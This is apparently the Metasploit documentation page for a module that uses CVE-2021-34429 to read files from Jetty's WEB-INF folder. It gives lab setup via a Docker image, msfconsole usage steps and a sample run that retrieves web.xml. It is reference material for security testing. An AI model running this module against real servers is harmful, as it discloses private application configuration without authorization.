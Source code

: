 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

### CVE-2021-34429

Use the Docker image from [ColdFusionX](https://github.com/ColdFusionX/CVE-2021-34429) at
https://github.com/ColdFusionX/CVE-2021-34429/blob/main/docker-compose.yml

## Verification Steps

1. Install Jetty with an app that contains a `WEB-INF` folder
1. Start msfconsole
1. Do: `use auxiliary/gather/jetty_web_inf_disclosure`
1. Do: `set rhosts`
1. Do: `run`
1. You should get the contents of a file

## Options

### FILE

The file in the `WEB-INF` folder to retrieve. Defaults to `web.xml`

## Scenarios

### Jetty 11.0.5 from Docker

```
resource (jetty.rb)> use auxiliary/gather/jetty_web_inf_disclosure
resource (jetty.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (jetty.rb)> set rport 8080
rport => 8080
resource (jetty.rb)> set verbose true
verbose => true
resource (jetty.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found version: 11.0.5
[+] 11.0.5 vulnerable to CVE-2021-34429
[!] The service is running, but could not be validated.
[+] File stored to /home/h00die/.msf4/loot/20211108134054_default_1.1.1.1_jetty.web.xml_813220.xml
[+] <!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >
<web-app>
<display-name>ColdFusionX - Web Application</display-name>
</web-app>
```